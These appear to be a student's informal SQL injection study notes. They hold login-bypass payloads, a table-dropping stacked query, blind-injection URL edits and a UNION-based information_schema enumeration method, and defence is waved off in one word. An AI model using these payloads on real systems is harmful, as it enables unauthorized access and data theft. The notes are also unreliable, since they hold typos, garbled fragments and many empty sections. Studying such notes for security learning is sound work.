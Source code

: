 ## SQL
```

Structured query language:
(MYSQL)

Eveything is case sensitive except databases/tables
Databases contain tables
tables contain columns
information, preformance, mysql == default

select * from messages.comments;

SQL sanitization


```

## SQL INJECTION
```
Authentication bypass
TOM' OR 1='1 (username and password)

Stacking Statements
Select * From user Where id='JOHNNY; DROM TABLE CUSTOMERS; #'

Add an # at end of every statement except the test statement

GOLDEN STATEMENT:
Injectable field that is NOT A LOGIN FIELD

Blind Injection:
Normal query -- php?item=4
Blind injection: php?item=4 OR 1=1


@@Version in a column gives you version


Defending against:
TRASH

```

## DEMO
```

' OR 1='1 (username and password)

TURN POST INTO A GET REQUEST
open network tab (F12)
send authentication and look at varriables
click raw
copy
add an ? and paste
you can only pull usernames and passwords/authentication bypass on a login screen

GOLDEN STATEMENT:


```

## Methodology
```

Login == SQL
TABLE == SQL
When given options, use them

0. Find SQL FIELD
1. TEST FIELD
2. FIND COLUMNS(Union Select 1,2,3,4,5....)
3. GOLDEN STATEMENT (UNION SELECT table_schema,table_name,Column_name FROM information_schema.columns;#)(pad according to what you see)
4. Line up
5. BASK IN GLORY
6. Profit

USE THE GOLDEN STATEMENT TO CRAFT THE NEXT QUERY

GET METHOD:
SUBMIT=SUBMIT == TRASH(delete it)
IN URL (add OR 1=1)
UNION 1,2,3;#


```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

